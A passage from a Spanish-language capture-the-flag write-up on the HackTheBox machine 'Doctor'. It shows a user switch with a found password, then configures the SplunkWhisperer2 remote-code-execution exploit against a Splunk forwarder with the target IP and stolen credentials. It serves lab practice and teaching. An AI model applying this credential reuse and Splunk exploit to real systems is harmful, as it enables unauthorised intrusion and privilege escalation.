 ```bash
web@doctor:~$ su shaun
su shaun
Password: Guitar123

shaun@doctor:/home/web$ whoami
whoami
shaun
shaun@doctor:/home/web$ id
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
shaun@doctor:/home/web$ 
```

Listo, démosle candela pa convertirnos en root.

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Buscando en internet sobre `splunk` y sus posibles vulnerabilidades, encontramos un repositorio con un exploit interesante que crea un servidor falso en nuestra máquina, el cual hace como "ruta o comunicador" para en la mitad del proceso entrar nosotros a ejecutar comandos.

* [SplunkWhisper2](https://github.com/cnotin/SplunkWhisperer2) (versión inspirada en una que hizo [airman604](https://github.com/airman604/splunk_whisperer)).
* Lindo [articulo](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/) y el cual usaremos como guía para ejecutar comandos remotamente.

Hay dos, el `local` y el `remoto`, usaremos el remoto, veamos que argumentos toma:

```py
...
parser.add_argument('--scheme', default="https")
parser.add_argument('--host', required=True)
parser.add_argument('--port', default=8089)
parser.add_argument('--lhost', required=True)
parser.add_argument('--lport', default=8181)
parser.add_argument('--username', default="admin")
parser.add_argument('--password', default="changeme")
parser.add_argument('--payload', default="calc.exe")
parser.add_argument('--payload-file', default="pwn.bat")
...
```

Procedamos a cambiar a lo que tenemos:

```py
...
parser = argparse.ArgumentParser()
parser.add_argument('--scheme', default="https")
parser.add_argument('--host', default="10.10.10.209")
parser.add_argument('--port', default=8089)
parser.add_argument('--lhost', default="10.10.14.83")
parser.add_argument('--lport', default=8181)
parser.add_argument('--username', default="shaun")
parser.add_argument('--password', default="Guitar123")
parser.add_argument('--payload', default="calc.exe")
parser.add_argument('--payload-file', default="pwn.bat")
...
```

